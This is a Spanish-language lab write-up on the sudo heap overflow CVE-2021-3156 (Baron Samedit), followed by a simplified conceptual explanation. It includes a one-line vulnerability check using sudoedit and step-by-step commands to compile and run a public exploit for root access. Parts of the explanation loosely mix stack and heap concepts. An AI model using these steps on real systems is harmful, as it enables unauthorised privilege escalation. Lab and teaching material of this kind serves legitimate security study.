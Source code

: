 ```yaml
---
title: Baron Samedit - Escalación de privilegios en Linux
date: 2025-01-11 13:01:50 +0100
categories: [Labs & CTF, Write Up, Privilege Escalation]
tags: [Linux, privilege escalation, vulnerability, cve-2021-3156]
---
```


En enero de 2021, Qualys publicó un artículo en su blog explicando una nueva vulnerabilidad crítica en el programa sudo de Unix.

Esta vulnerabilidad era un desbordamiento de memoria en el montón (heap buffer overflow) que permitía a cualquier usuario obtener privilegios de administrador (root), sin que fuera necesario que el sistema tuviera configuraciones incorrectas. Lo preocupante de este fallo es que funciona con la configuración predeterminada y afecta a cualquier usuario, sin importar los permisos que tenga configurados en sudo. Aunque la vulnerabilidad ya fue corregida, afecta a las versiones no actualizadas del programa sudo entre la 1.8.2 y la 1.8.31p2, y entre la 1.9.0 y la 1.9.5p1, lo que significa que este fallo estuvo presente durante una década.

El problema se solucionó rápidamente, y las versiones parcheadas se distribuyeron pronto en los repositorios oficiales, por lo que los sistemas actualizados ya no son vulnerables. Sin embargo, en sistemas que aún no han sido actualizados, esta vulnerabilidad sigue siendo muy peligrosa.

Esta vulnerabilidad, al igual que la CVE-2019-18634, está relacionada con un desbordamiento de memoria en el programa sudo. Sin embargo, en este caso, se trata de un desbordamiento en el montón (heap), no en la pila (stack), como en el caso anterior. La pila es una parte de la memoria que organiza y gestiona datos clave del programa de manera estricta, mientras que el montón es un espacio de memoria más flexible, usado para la asignación dinámica. Aunque no profundizaremos en los detalles técnicos para mantener el contenido accesible, lo importante es entender que esta vulnerabilidad es extremadamente potente y afecta a un gran número de sistemas.

## Comprobación

Primero comprobamos si el sistema es vulnerable:

```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```

![Si el sistema es vulnearble obtenemos un error por corrupción de memoria](/assets/img/posts/baron_samedit/20250111_130150_2025-01-11_14-01.png)
_Si el sistema es vulnearble obtenemos un error por corrupción de memoria_

Este PoC fue descubierto por lockedbyte:

[Github](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156)

## Explotación

Cuando Qualys anunció esta vulnerabilidad, no proporcionó el código completo para explotarla. Sin embargo, otros investigadores pronto lograron recrear el fallo. El primer exploit completamente funcional que se publicó fue desarrollado por un investigador apodado bl4sty, y su código está disponible en Github. En esta práctica, utilizaremos ese exploit para aprovechar la vulnerabilidad.

[Github](https://github.com/blasty/CVE-2021-3156)

Con el repositorio clonado debemos compilar el PoC:

```bash
make
```

![Compilación del exploit](/assets/img/posts/baron_samedit/20250111_130714_2025-01-11_14-07.png)

```bash
ls -la
```

![Listado de archivos](/assets/img/posts/baron_samedit/20250111_130918_2025-01-11_14-09.png)

```bash
./sudo-hax-me-a-sandwich
```

![Ejecución del exploit](/assets/img/posts/baron_samedit/20250111_131028_2025-01-11_14-10.png)

Como tenemos que seleccionar la versión del sistema podemos verificar cual es de la siguiente forma:

```bash
cat /etc/issue
```

![Verificación de versión](/assets/img/posts/baron_samedit/20250111_131601_2025-01-11_14-15.png)

Ahora que sabemos la verión concreta ejecutamos el exploit:

```bash
./sudo-hax-me-a-sandwich 0
```

![Ejecución final del exploit](/assets/img/posts/baron_samedit/20250111_131727_2025-01-11_14-17.png)

## Explicación

### Explicación del Heap Buffer Overflow

Un heap buffer overflow ocurre cuando un programa escribe más datos en un búfer (un área de memoria) de lo que este puede manejar. El heap es una región de la memoria utilizada para la asignación dinámica de memoria, es decir, cuando el programa necesita reservar memoria de manera flexible durante su ejecución.

### El funcionamiento de la vulnerabilidad

El error se origina en la forma en que sudo maneja ciertos argumentos de la línea de comandos cuando se utiliza para ejecutar otros programas. sudo tiene una función interna que procesa estos argumentos, y allí es donde ocurre el desbordamiento.

Normalmente, cuando usas sudo, este se encarga de verificar que el usuario tenga los permisos necesarios para ejecutar el comando. Si todo está bien, se ejecuta el comando con privilegios elevados.

El fallo está relacionado con cómo sudo maneja la memoria para los argumentos de un comando en ejecución. Debido a un desbordamiento de búfer en el heap, se puede sobrescribir un área crítica de memoria, lo que permite a un atacante modificar el flujo de control del programa. En otras palabras, el atacante puede inyectar código arbitrario en la memoria del programa y cambiar su comportamiento.

### Cómo se explota

Para explotar esta vulnerabilidad, un atacante envia una entrada maliciosa a sudo que cause el desbordamiento de búfer en el heap. Este desbordamiento podría corromper datos clave en la memoria del programa, como la dirección de retorno de una función o las variables de control, permitiendo al atacante ejecutar código arbitrario.

En este caso, el atacante no necesita estar en un grupo con privilegios de sudo, porque el fallo no depende de la configuración de sudoers (el archivo que determina quién puede usar sudo), sino de un defecto en el manejo de la memoria de sudo.

### Estructura de control del flujo (return address)

Uno de los objetivos principales de un desbordamiento de búfer es sobrescribir la dirección de retorno de una función.

Esta dirección se almacena en la pila, y cuando una función termina de ejecutarse, el programa regresa a la dirección que está en la variable de retorno para continuar la ejecución.

Al sobrescribir la dirección de retorno, se puede hacer que el programa salte a una dirección de memoria arbitraria, en lugar de regresar de manera normal a la función que lo llamó.

Permite que el atacante redirija la ejecución del programa a código malicioso.

### Variables de control de seguridad (como los punteros a funciones)

Las funciones dentro de sudo realizan varias verificaciones de seguridad para asegurarse de que el usuario tiene los permisos adecuados. Un atacante puede intentar sobrescribir variables relacionadas con el control de acceso, como los punteros a las funciones que realizan estas verificaciones.

Si se sobrescriben estos punteros, podría hacer que el programa llame a funciones maliciosas en lugar de las funciones de verificación de permisos, permitiendo la escalada de privilegios.

Permiten al atacante evitar las verificaciones de permisos y ejecutar comandos con privilegios elevados.

### Memoria relacionada con la configuración de sudoers

Potencialmente permite que el atacante manipule configuraciones para ejecutar comandos sin permisos.

### Buffers de argumentos de comando

Permiten la inyección de comandos maliciosos para ejecutar como root.

### Punteros a la memoria en el heap

Permiten redirigir la ejecución hacia código controlado por el atacante.

Esto es un resumen del concepto explicado lo más simple posible para entender el funcionamiento del mismo.